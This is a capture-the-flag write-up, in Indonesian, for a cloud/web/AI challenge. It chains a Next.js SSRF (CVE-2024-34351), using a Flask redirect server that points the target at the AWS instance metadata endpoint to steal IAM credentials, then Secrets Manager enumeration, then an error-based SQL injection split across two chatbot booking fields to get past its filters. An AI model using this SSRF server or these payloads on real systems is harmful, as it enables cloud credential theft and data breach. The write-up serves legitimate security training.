## Cloud - Rabbit Hole

> My friend is obsessed with JoJo's Bizarre Adventure, so he built a themed website and asked me to deploy it. Problem is... I kinda used my dad's AWS account without telling him 😅.
> Can you take a look around the website and see if there's anything sensitive exposed?  
> Flag Format: ITSEC{.*}  
> Author: kangwijen & Djumanto


### Desciption

Challenge cloud ini memiliki tiga kategori, yakni cloud, web, dan ai. Pada soal ini, peserta akan melakukan chaining attack terhadap ketiga topik tersebut.

### Enumeration & Exploitation - Web

Diberikan website berikut


Jika dilihat menggunakan wappalyzer, diketahui bahwa web menggunakan nextjs versi 14.1.0


Versi ini vulnerable terhadap SSRF CVE-2024-34351

> Ref: https://github.com/God4n/nextjs-CVE-2024-34351-_exploit

Untuk cara exploitnya, pertama perlu setup vps dan jalankan code berikut

```py
from flask import Flask, Response, request, redirect
app = Flask(__name__)

@app.route('/', defaults={'path': ''})
@app.route('/<path:path>')
def catch(path):
    if request.method == 'HEAD':
        resp = Response("")
        resp.headers['Content-Type'] = 'text/x-component'
        return resp
    return redirect('http://169.254.169.254/latest/meta-data/iam/security-credentials')

app.run(host="0.0.0.0", port="3000", debug=True)

```

Kemudian kirim request seperti ini. Nantinya target akan melakukan GET requests ke url yang kita input pada server.



### Enumeration & Exploitation - Cloud

Pada hasil exploitasi diatas, terlihat bahwa terdapat security credentials rabbit-hole-role-XXX

Jika kita akses menggunakan SSRF sebelumnya, maka AccessKeyId, SecretAccessKey, dan token bisa kita peroleh.



Kemudian kita lakukan enumerasi lagi menggunakan [aws-enumerator](https://github.com/shabarkin/aws-enumerator). Disini langsung diketahui bahwa user saat ini memiliki akses ke **amplify** dan juga **secretsmanager**


\


Ketika di enumerasi lagi, ternyata terdapat satu application yang di deploy menggunakan amplify



Kemudian kami melanjutkan untuk melihat details dari application tersebut. Disini kami menemukan domain yang digunakan.


Namun ketika diakses, tidak ada page yang bisa diakses sehingga menjadi 404


Disini kami lumayan lama dan cukup bingung, sampai rekan team sasya menemukan subdomain **production**, sesuai dengan branchName yang digunakan.


Ketika diakses, kita akan diminta credentials sebelum bisa mengakses aplikasi.


Berhubung enumerasi AWS tadi ada **secretsmanager**, jadi kami melakukan enumerasi terhadap service tersebut. Disini terdapat satu secrets yang kemungkinan besar digunakan untuk application amplify ini.


Ketika diakses, kami mendapatkan credentials **prodtest:st4rl1ght123**



Dengan credentials tersebut, kami pun berhasil masuk kedalam aplikasi utama.


### Enumeration & Exploitation - AI x Web

Di sini terdapat chatbot yang berguna untuk membuat booking terhadap specialist yang ada.


Setelah enumerasi cukup lama, kami akhirnya menemukan SQL Injection pada chatbot ini



Kami menemukan bahwa terdapat dua input yang vulnerable, yakni pada pertanyaan **“Who is the meeting with?**” dan juga **“What is the meeting topic?”**.

Akan tetapi, kami menyadari juga bahwa input yang masuk kedalam **“Meeting Topic”** sepertinya terkena filter seperti **no space**, **no sql comments**, dan juga selalu error ketika terdapat **dua buah single quote.**

Kami coba construct ulang kemungkinan query pada SQL, dan kira kira menjadi seperti ini

```sql
INSERT INTO schedule set (aaa, bbb, ccc, ddd, eee) value ('VULN Input 1', '2025-03-03', 'ghi', 'VULN Input 2', 'something');
```

Dan juga SQL Injection yang terjadi adalah Blind Based, karena ketika SQL Injection berhasil di sisi database, chatbot malah menampilkan input kita dan bukan data dari SQLServer.



Disini kita mencoba approach lain, yakni Error Based SQL Injection (berhubung error SQL ditampilkan ke user).

Kemudian untuk menghindari filter pada chatbot, kami menggunakan payload yang dipisah berikut:

1. “Who is the meeting with?”
   ```text
   abc', UPDATEXML(null,CONCAT(0x0a,(select substring(data_backup_number_404,20,50) from backup_env)),null), 123/*
   ```
2. “What is the meeting topic?”
   ```
    */ , '
   ```

Sehingga paylod final yang di eksekusi pada SQL Server menjadi berikut

```sql
INSERT INTO schedule set (aaa, bb, cc, topic, email) value ('abc', 'def', 'ghi', 'TEST','mail@mail.com'), ('abc', UPDATEXML(null,CONCAT(0x0a,(select substring(data_backup_number_404,20,50) from backup_env)),null), 123/*', '2005-02-02', '09:00', '*/ , '', 'something');
```

Dan ketika dijalankan, Flag pun didapatkan. Tapi karena suatu alasan. Flagnya tidak muncul secara penuh, jadi perlu adjustment pada index substring nya.






**Flag:  ITSEC{bd8f95175722b36d0068fa36600a552a}**
